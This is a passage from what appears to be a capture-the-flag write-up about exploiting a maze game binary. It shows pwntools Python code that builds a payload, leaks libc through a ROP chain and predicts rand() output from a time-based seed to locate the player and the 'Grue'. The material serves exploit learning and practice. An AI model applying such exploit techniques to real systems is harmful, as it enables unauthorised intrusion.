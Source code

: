 ```python
    payload2 += 8 * b'\xff'
    payload2 += 8 * b'\xff'
    payload2 += 8 * b'\xff'
    if payload2.find(b'\n') != -1:
        log.critical('NL in payload 2')
        p.close()
        continue
```

Once back to the lower right corner we can just head to the Grue, that will trigger our ROP chain and leak libc.

With libc location known, we can quickly check if the 2nd pass ROP chain will be able to track forward and back.  Again another 1/4 chance, moving our total chance for success/attempt 1 in 32.

```python
    # pass 2
    glibc = cdll.LoadLibrary('libc.so.6')
    glibc.srand(glibc.time(None))
    
    log.info('pass 2')

    # get started
    p.sendlineafter(b'?\n',b'jump up and down')

    # find myself (base 1)
    p.sendlineafter(b': ',b'm')
    x = y = 0
    for i in range(80):
        _ = p.recvline().strip()
        if b'|' in _:
            y += 1
        if b'*' in _:
            x = (2 + _.find(b'*')) // 4
            break

    log.info('x,y = {x},{y}'.format(x = x, y = y))
    if x == 0:
        log.critical('no * to be found')
        p.close()
        continue

    # check we have a match for the seed
    dy = glibc.rand() % 0x28
    dx = glibc.rand() % 0x28
    log.info('rand {dx},{dy}'.format(dx = dx + 1, dy = dy + 1))
    if x != dx + 1 or y != dy + 1:
        log.critical('rand mismatch')
        p.close()
        continue

    gy = glibc.rand() % 0x28
    gx = glibc.rand() % 0x28
    log.info('grue at {gx},{gy}'.format(gx = gx + 1, gy = gy + 1))

    # lazy, not covering "edge" cases
    if gx == 39 or gy == 39:
        log.critical('grue on edge')
        p.close()
        continue

    # kick down the walls and get to the lower right avoiding grue
    if gx == dx:
        for i in range(40 - x):
```